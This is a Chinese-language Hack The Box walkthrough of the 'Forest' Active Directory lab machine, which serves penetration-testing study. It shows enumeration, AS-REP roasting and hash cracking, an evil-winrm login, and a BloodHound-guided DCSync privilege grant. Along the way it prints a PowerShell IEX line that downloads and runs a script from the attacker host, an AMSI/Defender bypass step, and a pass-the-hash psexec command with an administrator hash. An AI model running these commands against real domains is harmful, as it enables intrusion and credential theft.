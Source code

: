 ```yaml
---
title: Forest
date: 2021-12-24 13:52:39
tags: Hack The Box
categories: 内网
---
```


## 靶机信息
![在这里插入图片描述](https://img-blog.csdnimg.cn/2913cb4eedb44306869932340084824e.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
## 信息收集

```bash
nmap -sV -sS -Pn -A -p1-65535 10.10.10.161
```

```bash
Nmap scan report for 10.10.10.161
Host is up (0.32s latency).
Not shown: 65511 closed ports
PORT      STATE SERVICE      VERSION
53/tcp    open  domain       Simple DNS Plus
88/tcp    open  kerberos-sec Microsoft Windows Kerberos (server time: 2021-10-21 11:03:55Z)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp   open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
9389/tcp  open  mc-nmf       .NET Message Framing
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  msrpc        Microsoft Windows RPC
49671/tcp open  unknown
49676/tcp open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
49677/tcp open  msrpc        Microsoft Windows RPC
49684/tcp open  msrpc        Microsoft Windows RPC
49706/tcp open  unknown
49931/tcp open  msrpc        Microsoft Windows RPC
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=10/21%OT=53%CT=1%CU=36900%PV=Y%DS=2%DC=T%G=Y%TM=617148
OS:13%P=x86_64-pc-linux-gnu)SEQ(SP=103%GCD=1%ISR=103%TI=I%CI=I%II=I%SS=S%TS
OS:=A)SEQ(SP=104%GCD=1%ISR=104%TI=I%CI=I%TS=A)OPS(O1=M54DNW8ST11%O2=M54DNW8
OS:ST11%O3=M54DNW8NNT11%O4=M54DNW8ST11%O5=M54DNW8ST11%O6=M54DST11)WIN(W1=20
OS:00%W2=2000%W3=2000%W4=2000%W5=2000%W6=2000)ECN(R=Y%DF=Y%T=80%W=2000%O=M5
OS:4DNW8NNS%CC=Y%Q=)ECN(R=N)T1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD=0%Q=)T2(R=Y%D
OS:F=Y%T=80%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)T3(R=Y%DF=Y%T=80%W=0%S=Z%A=O%F=AR%O
OS:=%RD=0%Q=)T4(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=80%W
OS:=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)
OS:T7(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=80%IPL=164%U
OS:N=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=80%CD=Z)

Network Distance: 2 hops
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h26m49s, deviation: 4h02m32s, median: 6m47s
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: FOREST
|   NetBIOS computer name: FOREST\x00
|   Domain name: htb.local
|   Forest name: htb.local
|   FQDN: FOREST.htb.local
|_  System time: 2021-10-21T04:05:16-07:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2021-10-21T11:05:15
|_  start_date: 2021-10-21T07:03:53

TRACEROUTE (using port 1723/tcp)
HOP RTT       ADDRESS
1   321.85 ms 10.10.14.1
2   321.83 ms 10.10.10.161

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 3716.43 seconds
```

<!--more-->

我们发现可以进行匿名登录，我们尝试匿名登录SMB服务，看看有哪些有价值的信息
![在这里插入图片描述](https://img-blog.csdnimg.cn/e568f2f0f0ef419da569481703bc97f1.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
答案是没有，没有什么共享信息
![在这里插入图片描述](https://img-blog.csdnimg.cn/9315d9655d274be9baf1173d824bbf38.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

<!--more-->

上面信息收集时发现了ldap服务，那我们尝试使用ldapsearch工具对`namingcontexts`字段进行发掘
![在这里插入图片描述](https://img-blog.csdnimg.cn/5159dbdc249c4274ba73c56d802ba67c.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们尝试更深入地挖掘DN信息，并尝试获取域中的用户列表
![在这里插入图片描述](https://img-blog.csdnimg.cn/412eb99806c84827a8d4924b17aab912.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们还可以使用`enum4linux`获取用户
![在这里插入图片描述](https://img-blog.csdnimg.cn/295e9874f8a94b21b77a12fd68e7de09.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们将搜集的信息保存为一个`anon_ldap.txt`文件，过滤出`svc-alfresco`用户的信息
![在这里插入图片描述](https://img-blog.csdnimg.cn/323186c2631f445e8f56396ebc761eef.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
那我们拿到账号和用户名后，我们得检查一下是否启用了预认证，这里解释一下什么是预认证

> **在请求 TGT（票证授予票证）时，第一步，请求方（用户）使用自己的 NTLM 哈希加密时间戳，并将其发送到 KDC（密钥分发中心），即域控制器。现在，如果 KDC 使用请求用户的 NTLM 哈希成功解密时间戳，KDC 将知道请求用户是有效用户。
> 可以禁用此检查（这不是默认情况）。在这种情况下，KDC 不会验证请求 TGT 的用户是否有效，而是将 TGT 发送回请求者。
> 该 TGT 包含使用请求用户的 NTLM 哈希加密的部分数据，这意味着我们可以将哈希脱机并尝试破解它。**

那我们可以使用`impacket`包中的`GetNPUsers.py`这个脚本去请求TGT，直接获取易受攻击的用户名及对应的哈希值
![在这里插入图片描述](https://img-blog.csdnimg.cn/5284eb6938a448ed9fc2c450536c9ebc.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们使用`john`来破解这个hash值，破解的明文值为`s3rvice`
![在这里插入图片描述](https://img-blog.csdnimg.cn/171d16fb086e4306aed46bcfde8464e3.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们也可以用hashcat来破解

```bash
hashcat -m 18200 -a 0 -w 3 forest.hash /usr/share/wordlists/rockyou.txt
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/ac55b719cfc140b1ada3ab3f1ec23de1.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
因为上边我们扫描到主机开放了5985端口，那证明主机开放了WinRM服务

```bash
evil-winrm -i 10.10.10.161 -u 'svc-alfresco' -p 's3rvice'
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/391c73ad0f65465dbec84f80162fe866.png)
## 提权
我们使用Bloodhound这个工具查询是否有潜在的提权路径，首先我们得先把客户端`SharpHound.exe`上传到目标主机上，并运行它
![在这里插入图片描述](https://img-blog.csdnimg.cn/df95f275e38340aba9d52b2aa90c838e.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
![在这里插入图片描述](https://img-blog.csdnimg.cn/eaa70b145a0143d790b4d8c629a36d7f.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
为了方便我们传输，我们在本机上搭建一个SMB服务器
![在这里插入图片描述](https://img-blog.csdnimg.cn/a6dcecf002764ceb89b526cfc469f895.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
然后我们将压缩包复制到本机上
![在这里插入图片描述](https://img-blog.csdnimg.cn/9c2108c5892d4762af178e042896411e.png)
在攻击机上启动bloodhound，并将压缩包拖进bloodhound中
![在这里插入图片描述](https://img-blog.csdnimg.cn/0e1aedb210f74238ba29dd65d3cfb738.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
然后点击最后一个选项，查看可以进行哈希传递的用户
![在这里插入图片描述](https://img-blog.csdnimg.cn/7d5109e17fd740c08689be66a2ce0c35.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
然后再点击这个选项
![在这里插入图片描述](https://img-blog.csdnimg.cn/e417b9a4c91442eeb7e5f52dc99ec7be.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
![在这里插入图片描述](https://img-blog.csdnimg.cn/6899426da41d42139be684f6f99e7772.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
可以看到`svc-alfresco`这个用户是属于`service account`这个组的成员，同时它也是`Privileged IT Accounts`的成员，它也是`account operators`的成员。它允许该组的成员创建和修改用户并将其添加到不受保护的组
![在这里插入图片描述](https://img-blog.csdnimg.cn/e2cdb6b465b74640a64b7ea297939ce3.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
那我们现在点击`Shortest Paths to High Value Targets`，查看去往高权限目标的路径。该用户具有`GenericAll`的权限和`Exchange Windows`权限组。在`Exchange Windows`权限组具有`WriteDacl`在域的权限。该`WriteDacl`权限使用户能够向对象添加`DACL`（自由访问控制列表）。
![在这里插入图片描述](https://img-blog.csdnimg.cn/c6d80a75b47946b2bb2b74041117d941.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
**那就意味着：**

 **1. 我们可以将用户添加到Exchange Windows 权限组。
 2. 然后，由于 Exchange 组有WriteDacl权限，我们可以将DCSync权限授予我们创建的用户。**

>  **DCsync是几个权限的集合体，是域渗透中经常会用到的技术，如果普通用户想具有DCsync权限，可以给对象添加以下三条ACE：
>  DS-Replication-Get-Changes，对应GUID为：1131f6aa-9c07-11d1-f79f-00c04fc2dcd2
>  DS-Replication-Get-Changes-All，对应GUID为：1131f6ad-9c07-11d1-f79f-00c04fc2dcd2
>  DS-Replication-Get-Changes-In-Filtered-Set，对应GUID为：89e95b76-444d-4c62-991a-0facbeda640c**

## DCSync
首先我们先将用户添加到域中
![在这里插入图片描述](https://img-blog.csdnimg.cn/412def70d225418188f892346169b474.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
然后我们将用户添加到`Exchange Windows`权限组
![在这里插入图片描述](https://img-blog.csdnimg.cn/ead54544e07d4f67bcb1f4d5c4c973d0.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们看看菜单，我们选择`Bypass-4MSI`，`Bypass-4MSI`命令用于在导入脚本之前规避防御者。接下来，我们可以使用`Add-ObjectACL`和`john`的凭证，并给他`DCSync`权限。
![在这里插入图片描述](https://img-blog.csdnimg.cn/84b58436b0f54790bfdc7e1e5823e29a.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
然后输入以下的powershell的代码

```powershell
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> IEX(New-Object Net.WebClient).downloadString('http://10.10.14.11/PowerView.ps1')
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> $Secpassword = ConvertTo-SecureString 'password1234' -asplaintext -force
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> $Cred = New-Object System.Management.Automation.PSCredential('HTB\pyh',$Secpassword)
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> Add-ObjectAcl -Credential $cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity pyh -Rights DCSync
```
开启一个小型服务器
![在这里插入图片描述](https://img-blog.csdnimg.cn/37f75053912d4977b8ec82cc263da07f.png)
执行完成后，我们使用`secretdumps.py`脚本获取用户名对应的哈希值。这里我们获取到了管理员的哈希值
![在这里插入图片描述](https://img-blog.csdnimg.cn/16f9219409ec4fa78100ba391a0cf942.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
那么我们只需要使用`psexec.py`脚本来进行哈希传递攻击，获取到超级管理员权限

```bash
psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6 administrator@10.10.10.161
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/87f2253887984b2f8852806cd45909bb.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
